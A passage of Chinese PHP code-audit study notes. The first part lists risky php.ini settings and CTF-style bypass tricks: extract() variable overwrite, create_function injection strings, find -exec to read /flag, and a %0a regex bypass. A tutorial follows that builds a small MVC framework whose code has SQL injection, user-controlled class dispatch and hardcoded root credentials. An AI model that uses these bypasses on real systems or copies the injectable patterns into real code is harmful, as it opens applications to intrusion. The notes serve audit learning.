类似的还有allow_url_fopen，这个参数配置为on的时候可以使用file_get_contents函数打开url

allow_url_include和allow_url_fopen当两个配置项都为ON的时候，可以直接使用url进行远程包含，当include为ON，fopen为OFF时，只能通过php伪协议进行包含


**3.magic_quato_gpc**

php版本小于5.4存在

此配置项为ON的时候会对GET、POST、COOKIE变量中的单引号(‘)、双引号(“)、反斜杠（\）、空字符(NULL)前添加反斜杠进行转义。

**注意：**这个配置并不会对SERVER变量里的特殊字符进行转义，因此可能会导致referer、client-ip存在注入等漏洞


**4.magic_quato_runtime**

php版本小于5.4存在

这个配置和magic_quato_gpc的区别就在于runtime是对从数据库或者文件中取出的数据进行转义，因此只对例如file()、fgets()、fread（）、mysql_fetch_array（）等很多对数据库查询和文件读取的函数产生影响


**5.magic_quato_sybase**

php版本小于5.4存在

这个配置和magic_quato_gpc 的区别在于，sybase只会转义空字符，把单引号转为双引号，并且这个配置如果为ON会覆盖gpc的配置


**6.open_basedir**

这个配置用来设置限定php程序只能访问哪些目录。在windows下，多个目录用分号（;）分割，linux下用冒号(:)进行分割。注意的是配置的目录需要用斜杠（/）进行封尾，否则就变成了前缀匹配。例如，配置/var/test，那么/var/test和/var/test123都是可以进行访问的，如果指定一个确定的目录就要写成/var/test/

参考:[《PHP代码审计小结》](https://hacksec.xyz/2018/03/21/Code-audit/)


#### 41.parse_url

`parse_url` 函数在解析 url 时存在的bug，通过：`////x.php?key=value` 的方式可以使其返回False。

```php
 zeroyu@zeros  ~  uname -a
Darwin zeros.local 17.7.0 Darwin Kernel Version 17.7.0: Thu Jun 21 22:53:14 PDT 2018; root:xnu-4570.71.2~1/RELEASE_X86_64 x86_64
 zeroyu@zeros  ~  php -v
PHP 7.1.16 (cli) (built: Mar 31 2018 02:59:59) ( NTS )
Copyright (c) 1997-2018 The PHP Group
Zend Engine v3.1.0, Copyright (c) 1998-2018 Zend Technologies
 zeroyu@zeros  ~  php -a
Interactive shell

php > var_dump(parse_url('///x.php?key=value'));
bool(false)
php >
```

参考:[《跨次元CTF》](https://note.youdao.com/http://mxny.org/post/ctf/2016-11-10)


#### 42.$

$$key = $value;中key有两个$,这会获取到的数组键名作为变量，数组中的键值就成了变量的值

```php
foreach($_GET as $key => $value){  
        $$key = $value;  
}  
if($name == "meizijiu233"){
    echo $flag;
}
```


#### 43.extract

可能存在变量覆盖漏洞

```php
<?php
$a = "Original";
$my_array = array("a" => "Cat","b" => "Dog", "c" => "Horse");
extract($my_array);
echo "$a = $a; $b = $b; $c = $c";
?>
```

例如:

```php
<?php
$flag = "xxx";
extract($_GET);
if (isset($gift)) {
    $content = trim($flag);
    if ($gift == $content) {
   echo "success";
    }
else {
 echo "failed";
}
}
?>
```

payload

```php
?flag=&gift=
```


#### 44.create_function

不用创建新函数来达到执行的目的，直接使用如下代码达到RCE

```php
create_function('', $_GET['code']);
```

具体场景中的绕过问题

```php
1. 如果可控在第一个参数，需要闭合圆括号和大括号：create_function('){}phpinfo();//', '');
2. 如果可控在第二个参数，需要闭合大括号：create_function('', '}phpinfo();//');
```


#### 45.find -exec 命令执行

最近碰到的DDCTF2020中用escapeshellcmd限制多行命令。由于escapeshellcmd限制，我们只能执行一条命令。但是find可以通过-exec执行命令。

```php
public function get_flag()
{
    return system('find /HackersForever ' . escapeshellcmd($this->flag));
}
```


```bash
 find /HackersForever -exec cat /flag {} \;
```

需要{} \;结尾


#### 46. php文件的多种解析方法

```php
<? echo ("这是一个 PHP 语言的嵌入范例\n"); ?>
<?php echo("这是第二个 PHP 语言的嵌入范例\n"); ?>
<script language="php"> 
echo ("这是类似 JavaScript 及 VBScript 语法
的 PHP 语言嵌入范例");
</script>
<% echo ("这是类似 ASP 嵌入语法的 PHP 范例"); %>
```


过滤了<?后可以用别的几种


#### 47. PHP的字符串解析特性bypass 含下划线变量

```
/news.php?%20news[id%00=42"+AND+1=0--
```

上述PHP语句的参数%20news[id%00的值将存储到$_GET["news_id"]中。

PHP需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：

> ​    1.删除空白符
>
> ​    2.将某些字符转换为下划线（包括空格）

例如：

|  User input   | Decoded PHP | variable name |
| :-----------: | :---------: | :-----------: |
| %20foo_bar%00 |   foo_bar   |    foo_bar    |
| foo%20bar%00  |   foo bar   |    foo_bar    |
|   foo%5bbar   |   foo[bar   |    foo_bar    |


例如，我要获得b_u_u_t


#### 48.`$_SERVER['QUERY_STRING']`绕过

`$_SERVER['QUERY_STRING']`不会进行URLDecode，而`$_GET[]`会将参数进行URLDecode

```php
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
```

?b%20u%20p%20t=23333%0a


#### 49. %0a在正则中的作用

```php
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

if中正则匹配表示匹配字符串的开头和结尾，由于在字符串中换行可以表示字符串的结尾，所以可以用%0a绕过


## php框架理解


### php从零开始开发属于自己的php框架

#### mvc框架理解

mv结构：

```php
<?php
# model 模型
$conn = mysqli_connect('localhost','root','root','test');
$result = mysqli_query($conn,"select * from users");

if ($result && mysqli_num_rows($result)>0){
    $rows =mysqli_fetch_all($result,MYSQLI_ASSOC);
}else{
    echo "<h2>没有数据</h2>";
}

# view 视图
echo '<h2>学生信息表</h2>';
echo '<table border="1" cellspacing="0" cellpadding="5" align="center" width="60%">';
echo '<tr><th>id</th><th>username</th><th>password</th></tr>';
foreach($rows as $row){
    echo '<tr>';
    echo '<td>'.$row['id'].'</td>';
    echo '<td>'.$row['username'].'</td>';
    echo '<td>'.$row['password'].'</td>';
}
echo '</table>';

```


将其改为mvc模式：

model.php

```php
<?php
$conn = mysqli_connect('localhost','root','root','test');
$result = mysqli_query($conn,"select * from users");

if ($result && mysqli_num_rows($result)>0){
    $rows =mysqli_fetch_all($result,MYSQLI_ASSOC);
}else{
    echo "<h2>没有数据</h2>";
}
```


view.php

```php
<?php
echo '<h2>学生信息表</h2>';
echo '<table border="1" cellspacing="0" cellpadding="5" align="center" width="60%">';
echo '<tr><th>id</th><th>username</th><th>password</th></tr>';
foreach($rows as $row){
    echo '<tr>';
    echo '<td>'.$row['id'].'</td>';
    echo '<td>'.$row['username'].'</td>';
    echo '<td>'.$row['password'].'</td>';
}
echo '</table>';

```


mvc.php

```php
<?php
include "model.php";

include "view.php";
```


此时mvc.php就是一个控制器。

所以很好理解，对MVC架构的简单理解就是将数据库操作，前端展示分开，由统一的一个入口文件（控制器）进行控制。


实际的开发顺序应当为MCV，先写好模型，然后根据模型的需要编写控制器，最后根据模型的特点编写合适的模型。


#### 单例模式

php语言的强大，离不开设计模式，php语言发展到今天，设计模式有几十种，本次介绍的是单例模式。

danli.php


```php
class Demo{
    
}

$obj1 = new Demo();
$obj2 = new Demo();
$obj3 = new Demo();

var_dump($obj1,$obj2,$obj3);
```


```php
object(Demo)#1 (0) {
}
object(Demo)#2 (0) {
}
object(Demo)#3 (0) {
}

```

#后的数字为对象的id号。从这个例子可以看到我们每次进行new 操作，都会产生一个完全的新的对象。实际上，对象的维护是非常消耗内存的。

如果我们以new的方式来生成这样的一个实例化对象，当我们在别的文件对这个类文件进行包含的时候，会再次进行new操作，这样实例化多个对象其实是没有必要的，实际场景下我们只需要调用这个类的特定方法，维护一个实例化对象就够了。单例模式就是用来解决这个问题的。


变量的引用传递

```php
<?php

class Demo{

}

$obj1 = new Demo();
$obj2 = new Demo();
$obj3 = new Demo();
$obj4 = $obj3;
var_dump($obj1,$obj2,$obj3,$obj4);
```

```php
object(Demo)#1 (0) {
}
object(Demo)#2 (0) {
}
object(Demo)#3 (0) {
}
object(Demo)#3 (0) {
}
```

可以看到通过引用传递生成的对象其实是已有对象的引用。学会这个知识点后即可开始单例模式的代码编写


单例模式需要完成以下几个要求

- 维护一个私有属性，保存当前类的实例
- 私有化构造方法，禁止外部用new来创建类的实例
- 私有化克隆方法，禁止从外部克隆来生成类的实例
- 编写一个public方法来生成类的实例


```php
<?php

class Demo{
    // 维护一个私有属性，保存当前类的实例
    private static $instance = null;
    
    //私有化构造方法，禁止外部用new来创建类的实例
    private function __construct()
    {

    }
    
    //私有化克隆方法，禁止从外部克隆来生成类的实例
    private function __clone()
    {
        // TODO: Implement __clone() method.
    }

    //生成类的实例
    public static function getInstance()
    {
        //判断私有属性$instance是否为当前类的实例
        if(!self::$instance instanceof self)
        {
            self::$instance = new self();
        }
        return self::$instance;
    }
}

//获取实例
$obj1 = Demo::getInstance();
$obj2 = Demo::getInstance();
$obj3 = Demo::getInstance();
$obj4 = Demo::getInstance();
var_dump($obj1,$obj2,$obj3,$obj4);
```


#### 封装数据库操作类Db类

- 创建当前类的单一实例
- 创建数据库的基本操作


这部分的逻辑很简单，实现数据库操作的封装，基于PDO的方式进行编写。主要知识点在于熟悉PDO函数。


编写Db类，我们可以将所有参数保存在一个数组里。并且加上上节中的单例模式。有所不同的是，初始化部分我们需要将用户提供的额外配置加入默认配置，使用数组连接函数array_merge即可。并进行连接。这里connect函数尚未编写。

```php
class Db{
    //数据库的默认连接参数
    private $dbConfig = [
        'db'=>'mysql',
        'host'=>'localhost',
        'port'=>'3306',
        'user'=>'root',
        'pass'=>'root',
        'charset'=>'utf8',
        'dbname'=>'test',
    ];
    private static $instance = null;
    
    private function __construct($params)
    {
        //初始化连接参数
        $this->dbConfig = array_merge($this->dbConfig,$params);
        //连接数据库
        $this->connect();
    }
    /*
     * 禁止外部克隆
     */
    private function __clone()
    {
        // TODO: Implement __clone() method.
    }

    public static function getInstance(){
        if(!self::$instance instanceof self){
            self::$instance = new self();
        }
        return self::$instance;
    }
    
}
```


connect函数：

```php
    private function connect(){
        try{
            //配置数据源DSN
            $dsn = "{$this->dbConfig['db']}:host={$this->dbConfig['host']};
            port={$this->dbConfig['port']};dbname={$this->dbConfig['dbname']};
            charset={$this->dbConfig['charset']}";

            $this->conn = new PDO($dsn,$this->dbConfig['user'],$this->dbConfig['pass']);

            //设置客户端的默认字符集
            $this->conn->query("SET NAMES {$this->dbConfig['charset']}");

        }catch (PDOException $e){
            die("数据库连接失败".$e->getMessage());
        }
    }

```

这里涉及几个知识点：

- dsn

  数据源名称或叫做 DSN，包含了请求连接到数据库的信息。

  通常，一个 DSN 由 PDO 驱动名、紧随其后的冒号、以及具体 PDO 驱动的连接语法组成。更深入的信息能从 [PDO 具体驱动文档](https://www.php.net/manual/zh/pdo.drivers.php)找到。

  范例：

  ```php
  <?php
  $dsn = 'mysql:dbname=testdb;host=127.0.0.1;port=3333';
  ?>
  ```

  这里加上大括号没有影响。

- [PDO::query](https://www.php.net/manual/zh/pdo.query.php) — 执行 SQL 语句，以 PDOStatement 对象形式返回结果集

- [PDO::query](https://www.php.net/manual/zh/pdo.query.php) — 执行 SQL 语句，以 PDOStatement 对象形式返回结果集

- 设置客户端的默认字符集为我们配置的字符集相同。

  ```php
              //设置客户端的默认字符集
              $this->conn->query("SET NAMES {$this->dbConfig['charset']}");
  ```

  


下一步是编写数据库的语句执行操作

```php
    /*
     * 完成数据表的写操作：新增、更新、删除
     * 返回受影响的记录，如果是新增返回新增主键id
     */

    public function exec($sql){
        $num = $this->conn->exec($sql);
        if ($num > 0){
            //如果是插入操作，新增主键id
            if(null!==$this->conn->lastInsertId()){
                $this->insertId = $this->conn->lastInsertId();
            }
            $this->num = $num;//返回受影响的记录数量。
        }else{
            $error = $this->conn->errorInfo();//获取最后操作的错误信息数组
            //[0]错误标识符[1]错误代码[2]错误信息
            print '操作失败'.$error[0].':'.$error[1].':'.$error[2];

        }
    }

```

- 这里可以添加一个成员变量$num用于记录收到影响的记录数量。

- [PDO::exec](https://www.php.net/manual/zh/pdo.exec.php) — 执行一条 SQL 语句，并返回受影响的行数

  实例：

  ```php
  <?php
  $dbh = new PDO('odbc:sample', 'db2inst1', 'ibmdb2');
  
  /*  删除 FRUIT 数据表中满足条件的所有行 */
  $count = $dbh->exec("DELETE FROM fruit WHERE colour = 'red'");
  
  /* 返回被删除的行数 */
  print("Deleted $count rows.\n");
  ?>
  ```

  

- [PDO::lastInsertId](https://www.php.net/manual/zh/pdo.lastinsertid.php) — 返回最后插入行的ID或序列值

- [PDOStatement::errorInfo](https://www.php.net/manual/zh/pdostatement.errorinfo.php) — 获取跟上一次语句句柄操作相关的扩展错误信息

  返回一个数组

  | Element | Information                                                  |
  | :------ | :----------------------------------------------------------- |
  | 0       | SQLSTATE error code (a five characters alphanumeric identifier defined in the ANSI SQL standard). |
  | 1       | Driver-specific error code.                                  |
  | 2       | Driver-specific error message.                               |

  实例：

  ```php
  <?php
  /* Provoke an error -- bogus SQL syntax */
  $stmt = $dbh->prepare('bogus sql');
  if (!$stmt) {
      echo "\nPDO::errorInfo():\n";
      print_r($dbh->errorInfo());
  }
  /*
  以上例程会输出：
  
  PDO::errorInfo():
  Array
  (
      [0] => HY000
      [1] => 1
      [2] => near "bogus": syntax error
  )*/
  ?>
  ```

  

下一步是编写查询函数

```php

    //获取单条查询结果
    public function fetch($sql){
        return $this->conn->query($sql)->fetch(PDO::FETCH_ASSOC);
    }

    //获取多条查询结果
    public function fetchAll($sql){
        return $this->conn->query($sql)->fetchAll(PDO::FETCH_ASSOC);
    }

```

- [PDO::query](https://www.php.net/manual/zh/pdo.query.php) — 执行 SQL 语句，以 PDOStatement 对象形式返回结果集
- PDOStatement 类中的fetch方法
  - PDOStatement::fetch — 从结果集中获取下一行
  - 第一个参数为fetch_style，这里为PDO::FETCH_ASSOC
  - `PDO::FETCH_ASSOC`：返回一个索引为结果集列名的数组
  - 更多参数信息参考：https://www.php.net/manual/zh/pdostatement.fetch.php
  - 更多PDOStatement 信息参考：https://www.php.net/manual/zh/class.pdostatement.php
- 


总代码：

```php
<?php


class Db{
    //数据库的默认连接参数
    private $dbConfig = [
        'db'=>'mysql',
        'host'=>'localhost',
        'port'=>'3306',
        'user'=>'root',
        'pass'=>'root',
        'charset'=>'utf8',
        'dbname'=>'test',
    ];

    private static $instance = null;
    private $conn = null;
    //返回新增的记录id
    public $insertId = null;
    //返回受影响记录的数量
    public $num = 0;

    /*
     * 私有化
     */
    private function __construct($params)
    {
        //初始化连接参数
        $this->dbConfig = array_merge($this->dbConfig,$params);
        //连接数据库
        $this->connect();
    }

    /*
     * 禁止外部克隆
     */
    private function __clone()
    {
        // TODO: Implement __clone() method.
    }

    public static function getInstance($params=[]){
        if(!self::$instance instanceof self){
            self::$instance = new self($params);
        }
        return self::$instance;
    }

    /*
     *
     */
    private function connect(){
        try{
            //配置数据源DSN
            $dsn = "{$this->dbConfig['db']}:host={$this->dbConfig['host']};
            port={$this->dbConfig['port']};dbname={$this->dbConfig['dbname']};
            charset={$this->dbConfig['charset']}";

            $this->conn = new PDO($dsn,$this->dbConfig['user'],$this->dbConfig['pass']);

            //设置客户端的默认字符集
            $this->conn->query("SET NAMES {$this->dbConfig['charset']}");

        }catch (PDOException $e){
            die("数据库连接失败".$e->getMessage());
        }
    }

    /*
     * 完成数据表的写操作：新增、更新、删除
     * 返回受影响的记录，如果是新增返回新增主键id
     */

    public function exec($sql){
        $num = $this->conn->exec($sql);
        if ($num > 0){
            //如果是新增操作，新增主键id
            if(null!==$this->conn->lastInsertId()){
                $this->insertId = $this->conn->lastInsertId();
            }
            $this->num = $num;//返回受影响的记录数量。
        }else{
            $error = $this->conn->errorInfo();//获取最后操作的错误信息数组
            //[0]错误标识符[1]错误代码[2]错误信息
            print '操作失败'.$error[0].':'.$error[1].':'.$error[2];

        }
    }

    //获取单条查询结果
    public function fetch($sql){
        return $this->conn->query($sql)->fetch(PDO::FETCH_ASSOC);
    }

    //获取多条查询结果
    public function fetchAll($sql){
        return $this->conn->query($sql)->fetchAll(PDO::FETCH_ASSOC);
    }

}
```


#### 测试数据库操作类Db

编写demo.php

实例化Db类进行测试


更新操作

```php
<?php
/*
 * Db测试
 */

require 'model/Db.php';

$db = Db::getInstance();  //获取Db类实例

//更新

$sql = 'UPDATE users SET username="dd" WHERE id = 1';
$num = $db->exec($sql);
//echo "成功更新".$num."条数据。";

```


新增操作测试


```php
$sql = "INSERT INTO users(id,username,password) values (4,'json','json')";
$db->exec($sql);
echo "成功更新".$db->num."条数据。新增主键id为：".$db->insertId;
```


删除操作测试

```
$sql = 'DELETE FROM users WHERE id = 4';
$db->exec($sql);
```


单条查询操作

```php
//查询单条
$sql = 'SELECT * FROM users where id=1';
$row = $db->fetch($sql);
print_r($row);
```


多条记录查询

```php
$sql = 'SELECT * FROM users';
$row = $db->fetchAll($sql);
print_r($row);
```


#### 创建公共基础类Model

编写公共基础类的目的就是为了提高代码的复用率，避免代码的冗余，用户在进行不同的模型定义时，只需要继承公共基础类即可。


Db\Model.php

```php
<?php
/*
 * 公共模型类
 * 完成数据库连接和公共方法
 */
class Model{
    protected $db = null; //数据库连接对象
    public $data = null;
    public function __construct()
    {
        $this->init();  //完成数据库连接
    }

    private function init()
    {
        $dbConfig = [
            'user'=>'root',
            'pass'=>'root',
            'dbname'=>'test',
        ];

        $this->db = Db::getInstance($dbConfig);
    }

    //获取全部数据
    public function getAll(){
        $sql = "SELECT * FROM users";
        return $this->data = $this->db->fetchAll($sql);
    }

    //获取单条数据
    public function get($id){
        $sql = "SELECT * FROM users WHERE id=$id";
        return $this->data = $this->db->fetch($sql);
    }
}
```


- 这里进行了数据库的初始化，可以修改用户配置。调用Db类进行数据库的实例化，存放在Model类的db变量中。
- 编写了总共方法getAll和get


#### 创建用户自定义的模型

用户自定义的模型实际上就是一张张表，例如，学生信息表，商品表，课程表等。用户模型都有一个公共的特点，都继承于公共模型Model。


UserModel.php

```php
class UserModel extends Model
{
    
}
```


#### 自定义控制器类的制作

控制器是模块的具体实现。模型是一张表。我们对模型的增删改查，最终都会映射为控制器中的一个具体方法。

控制器中的方法大多是模型操作的具体实现。大多数控制器类的方法都有对应的视图文件（模板文件）

```php
class UserController{
    public function listAll()
    {
        //实例化模型，获取数据
        $usr = new UserModel();
        $data = $usr->getAll();
        print_r($data);
    }

    public function info($id=1)
    {
        //实例化模型，获取数据
        $usr = new UserModel();
        $data = $usr->get($id);
        print_r($data);
    }
}
```

- 这里是创建了UserController控制器，来实例化模型，进行具体的操作。


#### 创建前端控制器

前端控制器也可以叫做请求分发器，具有入口文件的功能。

首先先将模型类文件包含进来。


```php
require 'model\Db.php';
require 'model\Model.php';
require 'model\UserModel.php';
```


假如我们需要请求参数为：c=User&a=listAll时调用UserController中的listAll方法。

```php
//获取控制器
$controller = isset($_GET['c']) ? $_GET['c']:'User';
$controller .= 'Controller';

require 'controller/'.$controller.'.php';

//获取方法
$action = isset($_GET['c']) ? $_GET['c']:'listAll';

//实例化自定义控制器类

$contr = new $controller();
$contr->$action();
```


index.php

```php
<?php
/*
 * 前端控制器
 * 请求分发器
 */

require 'model\Db.php';
require 'model\Model.php';
require 'model\UserModel.php';

//获取控制器
$controller = isset($_GET['c']) ? $_GET['c']:'User';
$controller .= 'Controller';

require 'controller/'.$controller.'.php';

//获取方法
$action = isset($_GET['c']) ? $_GET['c']:'listAll';

//实例化自定义控制器类

$contr = new $controller();
$contr->$action();
```


#### 创建视图基本原则

- 控制器中的一个方法通常与一个视图对应。

- 视图是用来展示数据的


#### 创建展示所有数据的视图

创建一个文件夹view

user_list.php

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<h2 align="center">学生信息表</h2>
<table border="1" cellspacing="0" cellpadding="5" align="center" width="60%">
    <tr><th>id</th><th>username</th><th>password</th></tr>
    <?php foreach($data as $usr): ?>
        <tr align="center">
            <td><?php echo $usr['id']?></td>
            <td><?php echo $usr['username']?></td>
            <td><?php echo $usr['password']?></td>
        </tr>
    <?php endforeach;?>
</table>
<p>共计：<?php echo count($data);?> 条数据</p>

</body>
</html>
```


再在UserController.php中包含进来

```php
    public function listAll()
    {
        //实例化模型，获取数据
        $usr = new UserModel();
        $data = $usr->getAll();
        require 'view/user_list.php'; //渲染模板
//        print_r($data);
    }

```


#### 创建展示单条数据的视图

与所有数据不同的是，单条数据为一维数组，在数组的操作上有所不同


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<h2 align="center">学生信息表</h2>
<table border="1" cellspacing="0" cellpadding="5" align="center" width="60%">
    <tr align="center">
        <th>字段</th><th>值</th>
    </tr>
    <tr>
        <td>id</td>
        <td><?php echo $data['id']?></td>
    </tr>
    <tr>
        <td>username</td>
        <td><?php echo $data['username']?></td>
    </tr>
    <tr>
        <td>password</td>
        <td><?php echo $data['password']?></td>
    </tr>
    
</table>
</body>
</html>
```


#### 规范项目的目录结构

```php
├─application
│  ├─admin
│  │  ├─controller
│  │  ├─model
│  │  └─view
│  ├─config
│  └─home
│      ├─controller
│      ├─model
│      └─view
└─framework


```


新建一个项目目录，里重新规划目录结构。大致如上图。将之前编写的文件放置到相应的目录下。

- application目录为应用目录，存放业务逻辑代码，主要是前台模块，后台模块和相关的配置文件。

  - config目录用于存放相关的各种配置文件

  - admin为后台模块

    - controller目录
    - model目录
    - view目录

  - home为前台模块

    - controller目录

      - UserController.php

        由于目录变化，内容也需要进行相应的变化

        ```php
        <?php
        /*
         * 用户模块控制器
         * 模块管理
         * 模型根据数据表创建，控制器根据模块创建
         * 一个控制器完成了一个模块的功能
         */
        class UserController{
            public function listAllAction()
            {
                //实例化模型，获取数据
                $usr = new UserModelAction();
                $data = $usr->getAll();
                require './application/view/user_list.php'; //渲染模板
            }
        
            public function infoAction($id=1)
            {
                //实例化模型，获取数据
                $usr = new UserModel();
                $data = $usr->get($id);
        //        print_r($data);
                require './application/view/user_info.php';
            }
        }
        ```
        

    - model目录

      - UserModel.php

    - view目录

      - user_info.php
  - user_list.php
  
- framwork为框架目录，存放数据库的基础操作类和一些基础模型。

  - base.php：框架的基础类，引导类，完成配置加载和类的自动加载
  - Model.php
  - Db.php

- index.php：入口文件


#### 创建应用的公共配置文件

编辑application/config.php

```php
<?php
/*
 * 公共配置文件
 */


return [
    //数据库配置
    'db' => [
        'user'=>'root',
        'pass'=>'root',
        'dbname'=>'test'
    ],

    //应用的整体配置
    'app' => [
        'default_platform' => 'home',

    ],

    //前台配置
    'home' => [
        'default_controller' => 'User',
        'default_action' => 'listAll'
    ],

    'admin' => [
        'default_controller' => '',
        'default_action' => ''
    ]

];
```


#### 创建框架基础类

框架基础类要完成的工作有

- 自动加载用户自定义的配置信息
- 完成类的自动加载
- 获取用户的请求：请求分发（把用户的请求发送给特定的控制器）


我们在一个函数内完成所有功能


```php
    public function run(){
        //加载配置
        $this->loadConfig();
        //注册自动加载类
        $this->registerAutoLoad();
        //获取请求参数
        $this->getRequestParams();
        //请求分发
        $this->dispatch();
    }
```


loadConfig

```php
    //加载配置
    private function loadConfig(){
        //使用全局变量保存用户配置
        //因为在其他文件中也要用到这些配置，所以定义为全局变量
        $GLOBALS['config'] = require './application/config/config.php';

    }
```

- ./application/config/config.php文件中的配置以一个数组的形式存放

  ```php
  <?php
  /*
   * 公共配置文件
   */
  
  
  return [
      //数据库配置
      'db' => [
          'user'=>'root',
          'pass'=>'root',
          'dbname'=>'test'
      ],
  
      //应用的整体配置
      'app' => [
          'default_platform' => 'User',
  
      ],
  
      //前台配置
      'home' => [
          'default_controller' => 'User',
          'default_action' => 'listAll'
      ],
  
      'admin' => [
          'default_controller' => '',
          'default_action' => ''
      ]
  
  ];
  ```


registerAutoLoad

```php
private function registerAutoLoad(){
    spl_autoload_register([$this,'userAutoLoad']);
}
```

- 它告诉PHP碰到没有定义的类就执行function

- 这里传入一个数组，第一个元素为类，第二为类的成员函数，这样的方式可以直接调用类的该方法

- 这里调用的是userAutoLoad

  ```php
      //创建用户自定义类的加载方法
      public function userAutoLoad($className){
          //定义基本类的列表
          $baseClass = [
              'Model' => './framework/Model.php',
              'Db' => './framework/Db.php',
          ];
  
          //依次进行判断，是基础类？模型类？控制器类？
          //依次加载
  
          if(isset($baseClass[$className])){
              require $baseClass[$className];
          } elseif (substr($className,-5) === 'Model'){
              require './application/home/model/'.$className.'php'; // 加载自定义模型类
          } elseif (substr($className,-10) === 'Controller'){
              require './application/home/controller/'.$className.'php'; // 加载自定义模型类
          }
      }
  
  ```

  


getRequestParams

需要处理的url：//?mvd1.php?p=home&c=User$a=info

```php
    //获取请求参数
    private function getRequestParams(){
        $defPlate = $GLOBALS['config']['app']['default_platform'];
        $p = isset($_GET['p']) ? $_GET['p']:$defPlate;
        define('PLATFORM',$p);

        $defController = $GLOBALS['config'][PLATFORM]['default_controller'];
        $c = isset($_GET['c']) ? $_GET['c']:$defController;
        define('CONTROLLER',$c);

        $defAction = $GLOBALS['config'][PLATFORM]['default_action'];
        $a = isset($_GET['a']) ? $_GET['a']:$defAction;
        define('ACTION',$a);
    }

```

- 从url中读取参数后，即可分发请求


dispatch

```php
    //请求分发
    private function dispatch(){
        //实例化控制器类
        $controllerName = CONTROLLER.'Controller';
        $controller = new $controllerName;

        $controllerAction = ACTION.'Action';
        $controller->$controllerAction();
    }
    //?mvd1.php?p=home&c=User$a=info
}
```


base.php

```php
<?php
/*
 * 框架基础类、引导类
 * 1.读取配置
 * 2.自动加载类
 * 3.请求分发
 */

class Base{
    //创建run方法、完成框架的所有功能
    public function run(){
        //加载配置
        $this->loadConfig();
        //注册自动加载
        $this->registerAutoLoad();
        //获取请求参数
        $this->getRequestParams();
        //请求分发
        $this->dispatch();
    }

    //加载配置
    private function loadConfig(){
        //使用全局变量保存用户配置
        //因为在其他文件中也要用到这些配置，所以定义为全局变量
        $GLOBALS['config'] = require './application/config/config.php';

    }

    //创建用户自定义类的加载方法
    public function userAutoLoad($className){
        //定义基本类的列表
        $baseClass = [
            'Model' => './framework/Model.php',
            'Db' => './framework/Db.php',
        ];

        //依次进行判断，是基础类？模型类？控制器类？
        //依次加载

        if(isset($baseClass[$className])){
            require $baseClass[$className];
        } elseif (substr($className,-5) === 'Model'){
            require './application/home/model/'.$className.'.php'; // 加载自定义模型类
        } elseif (substr($className,-10) === 'Controller'){
            require './application/home/controller/'.$className.'.php'; // 加载自定义模型类
        }
    }

    //注册自动加载类
    private function registerAutoLoad(){
        spl_autoload_register([$this,'userAutoLoad']);
    }

    //获取请求参数
    private function getRequestParams(){
        $defPlate = $GLOBALS['config']['app']['default_platform'];
        $p = isset($_GET['p']) ? $_GET['p']:$defPlate;
        define('PLATFORM',$p);

        $defController = $GLOBALS['config'][PLATFORM]['default_controller'];
        $c = isset($_GET['c']) ? $_GET['c']:$defController;
        define('CONTROLLER',$c);

        $defAction = $GLOBALS['config'][PLATFORM]['default_action'];
        $a = isset($_GET['a']) ? $_GET['a']:$defAction;
        define('ACTION',$a);
    }


    //请求分发
    private function dispatch(){
        //实例化控制器类
        $controllerName = CONTROLLER.'Controller';
        $controller = new $controllerName;

        $controllerAction = ACTION.'Action';
        $controller->$controllerAction();
    }
    //?mvd1.php?p=home&c=User$a=info
}
```


#### 创建框架的入口文件

- 导入框架基础类
- 实例化基础类
- 开始运行


```php
<?php

/*
 * 入口文件
 */

require './framework/Base.php';
//实例化框架
$app = new Base();
//让框架跑起来
$app->run();

```


修改了几处错误

```php
<?php
/*
 * 用户模块控制器
 * 模块管理
 * 模型根据数据表创建，控制器根据模块创建
 * 一个控制器完成了一个模块的功能
 */
class UserController{
    public function listAllAction()
    {
        //实例化模型，获取数据
        $usr = new UserModel();
        $data = $usr->getAll();
        require './application/'.PLATFORM.'/view/user_list.php'; //渲染模板
    }

    public function infoAction($id=1)
    {
        //实例化模型，获取数据
        $usr = new UserModel();
        $data = $usr->get($id);
//        print_r($data);
        require './application/'.PLATFORM.'/view/user_info.php';
    }
}
```

加载模板文件时，应该按照指定的platform来进行加载。

成功加载。


## php内核剖析

- http://static.kancloud.cn/nickbai/php7/363265
- [PHP内核入门](https://www.bilibili.com/video/BV1Pp4y197RC?from=search&seid=15455663194885762236)


# 0x02 代码审计工具

cobra： https://github.com/wufeifei/cobra

Seay源代码审计系统2.1: http://www.cnseay.com/

rips: https://github.com/ripsscanner/rips


# 0x03 代码审计刷题

[https://ca0y1h.top/Web_security/ctf_writeup/4.buuctf%E5%88%B7%E9%A2%98%E2%80%94%E2%80%94PHP%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/](https://ca0y1h.top/Web_security/ctf_writeup/4.buuctf刷题——PHP代码审计/)


# 0x04 参考链接

- [Audit-Learning](https://github.com/jiangsir404/Audit-Learning)
- [PHP代码审计中的一些Tips](http://zeroyu.xyz/2018/10/13/php-audit-tips/)
- [独孤九贱(8)_php从零开始开发属于自己的php框架](https://www.bilibili.com/video/BV1AK4y147RR?p=5)
- [利用PHP的字符串解析特性Bypass](https://www.freebuf.com/articles/web/213359.html)